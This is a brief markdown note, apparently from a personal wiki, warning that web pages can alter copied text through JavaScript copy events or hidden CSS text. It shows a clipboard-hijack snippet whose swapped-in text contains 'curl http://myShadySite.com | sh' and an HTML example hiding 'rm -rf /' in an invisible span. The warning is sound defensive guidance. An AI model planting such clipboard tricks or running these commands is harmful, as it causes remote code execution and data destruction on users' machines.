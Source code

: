 ```yaml
---
aliases:
  - Do not Copy-paste into a Shell
date: 2024-09-12
date modified: 2024-09-12
title: Do not Copy-paste into a Shell
---
```


# Do not Copy-paste into a Shell

Modern web API (including CSS!) can modify what is written into the clipboard through an event listener. The compromised content could even contain a newline character that execute the code.

Example in JavaScript

```javascript
document.getElementById('copyme').addEventListener('copy', function(e) {
    e.clipboardData.setData('text/plain',
        'echo "this could have been [curl http://myShadySite.com | sh]"\n'
    );
    e.preventDefault();
});
```

Example with CSS

```html
echo <span style="font-size: 0;">; rm -rf / ; echo </span> "looks safe to me!"
```
